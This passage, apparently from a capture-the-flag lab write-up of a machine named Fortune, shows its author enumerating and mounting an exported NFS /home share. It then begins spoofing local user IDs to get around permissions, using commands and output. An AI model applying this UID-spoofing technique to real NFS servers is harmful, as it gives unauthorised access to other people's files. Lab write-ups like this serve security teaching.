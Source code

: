 When I see nfs, I can run `showmount` to see what mounts are available:

    
    
    root@kali# showmount -e 10.10.10.127
    Export list for 10.10.10.127:
    /home (everyone)
    

The `/home` is not a safe thing to have, as I have access to user home
directories now.

## Shell as bob or charlie

### nsf access

I’ll make a mount point and mount the nfs access:

    
    
    root@kali# mkdir /mnt/fortune
    root@kali# mount -t nfs 10.10.10.127:/home /mnt/fortune
    root@kali# ls /mnt/fortune/
    bob  charlie  nfsuser
    

I can also see that it is mounted as version 3, which means I can set my uid
locally and nfs will respect that on Fortune:

    
    
    root@kali# mount | grep fortune
    10.10.10.127:/home on /mnt/fortune type nfs (rw,relatime,vers=3,rsize=65536,wsize=65536,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,mountaddr=10.10.10.127,mountvers=3,mountport=988,mountproto=udp,local_lock=none,addr=10.10.10.127)
    

### UserID Spoofing

I’m currently running as root, userid 0, on my kali box. However, that
permission doesn’t seem to be translating over to Fortune:

    
    
    root@kali# cd /mnt/fortune/charlie/
    -bash: cd: /mnt/fortune/charlie/: Permission denied
    

There is likely an option, `root_squash`, that doesn’t allow root connections
over nfs, and rather converts them to nobody.

Still, I can try other uids. I’ll remember from `/etc/passwd ` that charlie is
1000 and bob is 1001:

    
    
    fortune> cat /etc/passwd | grep -e bob -e charlie
    charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
    bob:*:1001:1001::/home/bob:/bin/ksh
    

I already have users on my local host with those ids:

